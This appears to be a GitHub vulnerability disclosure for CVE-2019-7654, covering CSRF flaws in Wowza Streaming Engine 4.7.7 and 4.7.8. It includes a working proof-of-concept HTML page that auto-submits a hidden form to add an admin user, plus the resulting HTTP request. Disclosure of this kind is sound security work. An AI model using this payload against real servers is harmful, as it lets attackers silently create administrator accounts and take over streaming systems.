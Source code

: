 # CVE-2019-7654-CSRF-Wowza
The Wowza Streaming Engine 4.7.7 build 20181108145350 and 4.7.8 build 20191105123929 applications suffer from multiple CSRF vulnerabilities. For example, an administrator, by following a link, can be tricked into making unwanted changes like adding another admin user.


### Evidence

Admin users:
<img src="Wowza-CSRF1.png">

An authenticated admin user can be tricked into accessing a page containing the following code:

```
<html> 
<body onload='document.frm1.submit();'> 
 <script>history.pushState('', '', '/')</script> 
 <form name="frm1" action="http://192.168.1.180:8088/enginemanager/server/user/edit.htm" method="POST"> 
 <input type="hidden" name="version" value="0" /> 
 <input type="hidden" name="action" value="new" /> 
 <input type="hidden" name="userName" value="wowadmin3" /> 
 <input type="hidden" name="userPassword" value="wowadmin3" /> 
 <input type="hidden" name="userPassword2" value="wowadmin3" /> 
 <input type="hidden" name="accessLevel" value="admin" /> 
 <input type="hidden" name="advUser" value="true" /> 
 <input type="hidden" name="advUser" value="on" /> 
 <input type="hidden" name="ignoreWarnings" value="false" /> 
 <input type="submit" value="Submit request" /> 
 </form> 
 </body> 
</html>
```

He then unknowingly will make a request that adds another application admin user (wowadmin3):

```
POST /enginemanager/server/user/edit.htm HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wowtest.com/
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 150

version=0&action=new&userName=wowadmin3&userPassword=wowadmin3&userPassword2=wowadmin3&accessLevel=admin&advUser=true&_advUser=on&ignoreWarnings=false
```
<img src="Wowza-CSRF2.png">
